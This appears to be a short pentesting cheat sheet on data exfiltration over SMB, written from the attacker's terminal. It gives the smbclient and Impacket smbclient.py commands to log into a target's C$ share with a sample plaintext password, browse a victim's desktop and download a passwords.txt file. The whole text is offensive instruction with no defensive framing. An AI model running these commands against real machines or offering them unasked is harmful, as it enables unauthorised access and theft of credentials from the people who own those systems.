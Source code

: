 # Exfiltration

## smbclient
```bash
# attacker Terminal 1:
mkdir loot               # make a dir for loot
cd loot                  # change to loot dir
smbclient //192.168.1.69/c$ -U john Password123! # login
cd users\victor\desktop  # its case insensitive
dir                      # list files to exfil
mget passwords.txt       # download a file
exit
```

## Impacket
### smbclient.py
`smbclient.py` also connects to SMB ports on the target. 
```bash
# attacker Terminal 1:
# use this syntax to specify a domain account: "domain/username"
smbclient.py evilcorp/john@target # invoke a semi-interactive shell
use restrictedfolder 
get passwords.txt
exit
```
